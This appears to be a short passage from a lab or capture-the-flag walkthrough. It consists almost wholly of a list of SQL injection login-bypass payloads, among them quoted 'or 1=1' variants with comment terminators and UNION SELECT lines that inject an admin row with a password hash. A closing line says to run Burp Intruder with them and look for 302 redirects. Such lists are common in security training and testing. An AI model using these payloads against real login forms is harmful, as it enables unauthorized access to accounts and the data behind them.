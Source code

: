 ```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
or 1=1 -- -
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

Run Intruder, look at the status code on the responses, there's a handful that resulted in a 302.
